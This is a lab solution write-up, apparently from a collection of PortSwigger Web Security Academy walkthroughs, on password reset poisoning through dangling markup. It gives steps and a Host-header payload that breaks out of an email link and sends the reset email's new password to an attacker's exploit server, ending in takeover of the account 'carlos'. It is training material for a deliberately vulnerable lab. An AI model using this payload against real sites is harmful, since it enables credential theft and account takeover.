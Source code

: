 # Password reset poisoning via dangling markup

## Description

[This lab](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup) is vulnerable to password reset poisoning via dangling markup.

## Reproduction and proof of concept

1. Go to the login page and request a password reset for your own account.
2. Go to the exploit server and open the email client to find the password reset email. Observe that the link in the email simply points to the generic login page and the URL does not contain a `password reset` token. Instead, a new password is sent directly in the email body text.
3. In the proxy history, study the response to the `GET /email` request. Observe that the HTML content for your email is written to a string, but this is being sanitized using the `DOMPurify` library before it is rendered by the browser.
4. In the email client, notice that you have the option to view each email as raw HTML instead. Unlike the rendered version of the email, this does not appear to be sanitized in any way.
5. Send the `POST /forgot-password` request to Burp Repeater. Observe that tampering with the domain name in the Host header results in a server error. However, you are able to add an arbitrary, non-numeric port to the `Host` header and still reach the site as normal. Sending this request will still trigger a password reset email:

```text
Host: lab-id.web-security-academy.net:arbitraryport
```
    
6. In the email client, check the raw version of your emails. Notice that your injected port is reflected inside a link as an unescaped, single-quoted string. This is later followed by the new password.
7. Send the `POST /forgot-password` request again, but this time use the port to break out of the string and inject a dangling-markup payload pointing to your exploit server:

```text
Host: lab-id.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?
```
    
8. Check the email client. You should have received a new email in which most of the content is missing. Go to the exploit server and check the access log. Notice that there is an entry for a request that begins `GET /?/login'>[…]`, which contains the rest of the email body, including the new password.
9. In Burp Repeater, send the request one last time, but change the `username` parameter to `carlos`. Refresh the access log and obtain Carlos's new password from the corresponding log entry.
10. Log in as `carlos` using this new password to solve the lab.

## Exploitability

An attacker will need to log in to `wiener:peter`; and log in to Carlos's account. 
Any emails sent to `wiener:peter` can be read via the email client on the exploit server.
